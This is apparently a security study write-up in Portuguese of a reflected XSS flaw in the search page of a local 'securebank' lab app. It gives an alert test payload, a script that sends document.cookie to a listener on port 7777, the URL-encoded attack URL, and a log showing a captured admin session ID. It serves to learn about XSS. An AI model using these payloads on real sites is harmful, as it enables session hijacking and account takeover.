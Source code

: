 #+title: Reflected Xss
#+author: gabriel
#+description: securebank application study

Verificando página por página da aplicação, encontramos um vulnerabilidade com alta criticidade um XSS que pode acabar ocasionando em grande impacto para a segurança.

[[./imgs/search_page.png]]

Inserindo alguns conteúdos neste campo de busca, pode se verificar que o conteúdo inserido é refletido na página ->

[[./imgs/input_test.png]]

Após esta request pode-se verificar que o conteúdo é refletido diretamente na página ->

[[./imgs/input_result.png]]

A inserção de código javascript também é refletida na página, este teste pode ser realizado com um simples payload como ->
: <script>alert(1)</script>

Simples demonstração de um session hijacking attack com o cookie do user admin ->

*payload* ->
: <script>fetch('http://localhost:7777/?c='+document.cookie)</script>

A request ficaria assim ->
: http://localhost:1337/PortalSearch?SearchString=<script>fetch('http://localhost:7777/?c='+document.cookie)</script>

Porém para funcionar precisa do url encode, podemos utilizar a ferramente do próprio burp, o decoder ->

[[./imgs/decoder.png]]

O payload fica assim ->
#+begin_src sh
http://localhost:1337/PortalSearch?SearchString=%3c%73%63%72%69%70%74%3e%66%65%74%63%68%28%27%68%74%74%70%3a%2f%2f%6c%6f%63%61%6c%68%6f%73%74%3a%37%37%37%37%2f%3f%63%3d%27%2b%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%29%3c%2f%73%63%72%69%70%74%3e%20
#+end_src

Listening with ->
#+begin_src python
python3 -m http.server 7777
Serving HTTP on 0.0.0.0 port 7777 (http://0.0.0.0:7777/) ...
#+end_src

With the execution ->
#+begin_src sh
[14:36][]~ ✮ python3 -m http.server 7777
Serving HTTP on 0.0.0.0 port 7777 (http://0.0.0.0:7777/) ...
127.0.0.1 - - [27/Sep/2025 14:46:31] "GET /?c=SessionId=YWRtaW5AaGV4ZHVtcC5zaA%3
2d28a1d7807fc7a2dd603d23a8743812c4542ed5d1c0b7ee143f1f33277e69f9%26100 HTTP/1.1"
#+end_src


* vulnerability found after login

http://localhost:1337/PortalSearch?SearchString=%3c%73%63%72%69%70%74%3e%66%65%74%63%68%28%27%68%74%74%70%3a%2f%2f%6c%6f%63%61%6c%68%6f%73%74%3a%37%37%37%37%2f%3f%63%3d%27%2b%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%29%3c%2f%73%63%72%69%70%74%3e


<script>fetch('http://localhost:7777/?c='+document.cookie)</script>

